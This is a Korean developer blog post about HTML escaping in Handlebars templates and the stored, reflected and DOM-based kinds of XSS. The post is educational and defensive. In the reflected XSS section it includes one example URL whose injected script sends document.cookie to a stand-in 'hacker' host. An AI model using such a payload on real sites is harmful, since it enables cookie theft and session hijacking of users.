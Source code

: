 ```yaml
---
layout: post
title:  "HTML escaping과 XSS 공격"
excerpt: ""

categories:
  - Security
tags:
  - [Security, Web]

toc: true
toc_sticky: true
comments: true
 
date: 2021-09-05
last_modified_at: 2021-09-05

---
```


# HTML-escaping

개발 진행 중, handlebars(hbs 파일)로 웹을 그릴 때 특수문자가 출력되지 않는 QA가 발생하여 대응했다.

hbs에서 변수를 참조하는 두 가지 방식이 있는데, html escaping 처리가 된 채로 출력되는 방식을 사용하고 있었다.

escaping 처리하지 않는 참조 방식으로 수정하여 문제를 해결할 수 있었다.

(<https://handlebarsjs.com/guide/expressions.html#html-escaping>)

> HTML escaping이란?
>
> html 마크업 언어에서 사용하는 특수문자를 다른 약속된 문자로 치환하는 것이다.
>
> 아래는 특수문자와 변환되는 문자 목록이다.
>
> raw: & < > " ' ` = 
>
> html-escaped: &amp &lt &gt &quot &#x27 &#x60 &#x3D

하지만, HTML escaping 을 제거할땐 필연적으로 XSS 이슈에 대해 고민할 필요가 있다.

왜냐하면 HTML escaping이 나온 이유가 XSS 공격을 막기 위해서이기 때문이다.

# XSS 공격

## 개요

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile21.uf.tistory.com%2Fimage%2F99E25E485C89B3950DAB60)



XSS는 웹 어플리케이션에서 발생하는 취약점으로, 해커가 웹 사이트에 스크립트를 삽입하는 공격 기법이다.

악의적 사용자가 C&C 서버로 리다이렉션 하기 위해 리다이렉션 스크립트를 주입하기도 하고, 쿠키를 탈취하여 세션 하이재킹(Session Hijacking) 공격을 수행하기도 한다.

> C&C(Command & Control) 서버란, 
>
> 일반적으로 감염된 좀비 PC가 해커가 원하는 공격을 수행하도록 원격지에서 명령을 내리거나, 악성코드를 제어하는 서버를 말한다.
>
> 예를 들어, 감염된 PC로 악성코드를 유포시키거나, 스팸 전송, 또는 DDoS 공격 등을 전달하는 역할을 한다.

위의 사진은 XSS 공격 중 Persistent(or Stored) XSS Attack이고, 사용자의 세션을 탈취하는 프로세스를 나타내고 있다.

예를 들어, 해커는 쿠키값을 자신에게 전송하는 스크립트를 게시글에 삽입하고, 사용자가 그 게시글을 열람할 경우 스크립트가 실행되어 쿠키값을 탈취하게 된다. 이를 통해 해커는 사용자의 계정으로 로그인 할 수 있게 된다.

<br>

## 공격 종류 및 방법

### Persistent(or Stored) XSS

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile22.uf.tistory.com%2Fimage%2F997CF6485C89B39508BA31)

XSS 공격 종류 중 하나인 Persistent XSS는 말 그대로 지속적으로 피해를 입히는 XSS 공격이다.

해커가 XSS 취약점이 있는 부분을 파악한 후, 그 부분에서 출력이 되는 부분에 스크립트를 삽입한다.

이 때, 해커가 삽입한 부분이 Database에 저장되고, 웹사이트는 Database에서 그 값을 보여줄 때 악성스크립트가 실행되면서 해커가 의도한 데로 동작하게 된다.

이렇게 Database에 저장되어서 지속적으로 공격하는 것을 Persistent XSS 라고 부른다.

주로 많이 공격되는 곳이 게시판이며, 게시판 이외에도 사용자가 저장한 값을 프론트에서 보여주는 부분이라면 공격 대상이 될 수 있다.

<br>

### Reflected XSS

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=http%3A%2F%2Fcfile2.uf.tistory.com%2Fimage%2F99CB0F485C89B39406841B)

Reflected XSS 공격은 사용자에게 입력 받은 값을 서버에서 되돌려 주는 곳에서 발생한다.

예를 들어, 검색이라는 기능은 사용자가 검색한 값을 그대로 웹사이트에서 보여줄 것이다.

그리고 검색 같은 경우 대부분 GET 메소드로 호출할 것이기 때문에, URL에 검색할 값을 삽입할 수 있고, 해커는 검색할 값에 자신의 스크립트를 넣은 채로 url 링크를 만들어 사용자에게 보내는 것이다.

> 예를 들면, GET 방식으로 검색기능을 구현한 웹 애플리케이션에 XSS 취약점이 있음을 확인한 해커는 공격코드를 작성하였습니다. 편의상 URL 인코딩은 하지 않았습니다. 
>
> ```http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>```

아무 생각 없이 링크를 클릭했다가 낭패를 겪는 경우가 Reflected XSS 공격을 받은 경우일 수도 있다.

<br>

### DOM based XSS

DOM Based XSS는 DOM 객체 기반의 XSS 공격인데, 서버에서 잘못 의도된 HTML을 반환하여 문제가 발생하는 것과 다르게, DOM Based XSS는 브라우저가 해석하는 단계에서 (서버와 관계 없이) 발생하게 된다.

이 부분은 내가 설명하는 것보다 자세히 정리된 글이 있어서 링크를 남겨둔다.

<https://ddungkill.tistory.com/135>